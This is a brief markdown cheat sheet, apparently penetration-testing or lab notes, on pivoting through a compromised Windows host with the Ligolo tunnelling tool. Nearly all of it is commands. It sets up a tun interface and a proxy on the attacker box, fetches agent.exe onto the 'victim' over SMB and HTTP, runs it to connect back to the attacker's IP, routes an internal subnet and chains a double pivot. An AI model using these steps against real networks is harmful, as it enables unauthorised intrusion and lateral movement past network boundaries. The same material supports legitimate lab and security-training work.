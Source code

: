 ```
sudo ip tuntap add user kali mode tun ligolo

sudo ip link set ligolo up 
```

```
./lin-proxy -selfcert -laddr 0.0.0.0:443    
```

on victim

```
net use n: \\192.168.45.240\share /user:test test

copy \\192.168.45.240\share\agent.exe
```

```
iwr http://192.168.45.216/agent.exe -O agent.exe
```

```
.\agent.exe -connect 192.168.45.216:443 -ignore-cert
```


add ip route to ligolo
```
sudo ip route add 172.16.182.0/24 dev ligolo
```


in ligolo
```
session
1
start
```

# double pivot

add new interface

```
sudo ip tuntap add user kali mode tun ligolo1
sudo ip link set ligolo1 up
```

add new listener to proxy

```
listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:443
```

now after getting connection, start new interface

```
start --tun ligolo1
```